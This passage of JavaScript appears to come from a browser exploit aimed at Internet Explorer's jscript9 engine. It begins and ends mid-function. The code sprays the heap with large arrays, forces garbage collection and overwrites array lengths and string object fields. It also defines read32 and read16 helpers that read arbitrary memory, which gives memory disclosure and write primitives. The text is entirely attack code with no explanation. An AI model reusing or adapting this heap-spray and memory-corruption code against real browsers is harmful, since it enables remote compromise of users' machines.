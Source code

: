 ```
 //alert(arrindex);
 //re-spray to overwrite buffer capacity
 for(var i=0;i&lt;2000;i++) `{`
   sprayarr[i] = new Array(32000);
 `}`
 CollectGarbage();
 for(var i=0;i&lt;2000;i++) `{`
   for(var j=0;j&lt;32000;j++) `{`
     if(j%2 == 0) `{`
       sprayarr[i][j] = addrlo + 8 - 0xBF4 + 3;
     `}` else `{`
       sprayarr[i][j] = addrhi;
     `}`
   `}`
 `}`
 //alert("done");
 crash(numsploits);
`}`
//unsigned to signed conversion
function u2s(i) `{`
 if(i&gt;0x80000000) `{`
   return -(0xFFFFFFFF - i + 1);
 `}` else `{`
   return i;
 `}`
`}`
//signed to unsigned conversion
function s2u(i) `{`
 if(i&lt;0) `{`
   return (0xFFFFFFFF + i + 1);
 `}` else `{`
   return i;
 `}`
`}`
//memory disclosure helper function, read 32-bit number from a given address
function read32(addrhi, addrlo) `{`
 arrarr[arrindex][strobjidx + 6] = u2s(addrlo);
 arrarr[arrindex][strobjidx + 7] = addrhi;
 return strarr[strindex].charCodeAt(0) + 0x10000 * strarr[strindex].charCodeAt(1);
`}`
//memory disclosure helper function, read 16-bit number from a given address
function read16(addrhi, addrlo) `{`
 arrarr[arrindex][strobjidx + 6] = u2s(addrlo);
 arrarr[arrindex][strobjidx + 7] = addrhi;
 return strarr[strindex].charCodeAt(0);
`}`
function afterSecondOverwrite() `{`
 arrindex = arrindex + 1;
 //adjusts the array length - gives us some space to read and write memory
 arrarr[arrindex][2+0x5000/4] = 0;
 //search for the next string object and overwrite its length and content ptr to write jscript9
 for(var i=1;i&lt;=5;i++) `{`
   if((arrarr[arrindex][2 + i*0x400 - 0x20] == 2) &amp;&amp; (arrarr[arrindex][3 + i*0x400 - 0x20] == 0)) `{`
     //alert("found");
     strobjidx = i*0x400 - 0x20 - 2;
     arrarr[arrindex][strobjidx+4] = 4;
     for(var j=20000;j&lt;30000;j++) `{`
       if(strarr[j].length != 2) `{`
         strindex = j;
         break;
       `}`
     `}`
```